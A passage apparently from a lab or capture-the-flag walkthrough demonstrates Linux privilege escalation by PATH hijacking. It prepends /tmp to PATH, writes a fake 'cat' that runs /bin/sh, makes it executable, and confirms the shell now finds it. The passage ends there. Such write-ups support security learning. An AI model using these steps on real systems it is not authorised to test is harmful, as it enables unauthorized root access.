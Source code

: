 Let have a look to current \$PATH
``` shell
  -----------------
  **echo \$PATH**
  -----------------
```
![](media/image73.png)

By creating a malicious cat, and modifying the path to include the
current working directory, we should be able to abuse this
misconfiguration, and escalate our privileges to root.

Let's add the “**tmp**” directory to PATH
``` shell
  -----------------------------
  **export PATH=/tmp:\$PATH**
  -----------------------------
```
![](media/image74.png)

Then we move into the tmp folder:
``` shell
  --------------
  **cd /tmp/**
  --------------
```
Let’ create ***a malicious cat***,
``` shell
  -----------------------------
  **echo '/bin/sh' > cat**
  -----------------------------
```
Let's make it executable.
``` shell
  ------------------
  **chmod +x cat**
  ------------------
```
Now, after making our “malicious” cat executable if we search for the
cat executable with the “which” command we will see:

![](media/image75.png)

PATH is an *environmental variable* in *Linux* and other *Unix-like*
*operating systems* that tells the **shell** which *directories* to
search for **executable files** (i.e., ready-to-run *programs*) in
response to *commands* issued by a user.
